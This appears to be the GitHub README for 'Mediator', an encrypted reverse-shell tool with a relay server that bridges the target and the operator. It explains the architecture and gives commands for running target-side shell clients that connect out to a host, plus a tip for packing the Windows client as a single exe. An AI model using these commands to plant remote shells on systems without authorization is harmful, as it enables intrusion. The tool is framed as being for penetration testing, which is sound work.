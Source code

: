# Mediator

<div style="text-align=right;">
  <img style="display: inline; float: right; margin-left: 1.5em" src="resources/mediator.png" alt="mediator logo" width="175"/>
</div>


<p>
Mediator is an end-to-end encrypted reverse shell in which the operator and the shell connect to a "mediator" server that bridges the connections. This removes the need for the operator/handler to set up port forwarding in order to listen for the connection. It also allows for easy integration into other pentesting and incident response tools.
</p>


## Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server listens on port 80 for handler connections and port 443 for reverse shell connections. When clients connect to the mediator, the server queues the clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

## Instructions:

### Server

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 80 and 443).

### Clients

The handler and the reverse shell can be used within other Python scripts or directly via the command line. In both cases, the clients can accept arguments for the server address and connection key. Usage of those arguments is described below.

**Mediator server address**

For *Python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with the `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (30 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong shell being given to an operator. 

Only keys with the prefix "#!ConnectionKey_" will be accepted by the server. The default connection key is "#!ConnectionKey\_CHANGE\_ME!!!".

To change the connection key for *Python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the connection key at the bottom of the script, or the connection key can be specified as an argument with the `-c` or `--connection-key` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com -c '#!ConnectionKey_secret_key'
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com -c '#!ConnectionKey_secret_key'
```


## Tips and Reminders:

- REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.
- TIP: You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag

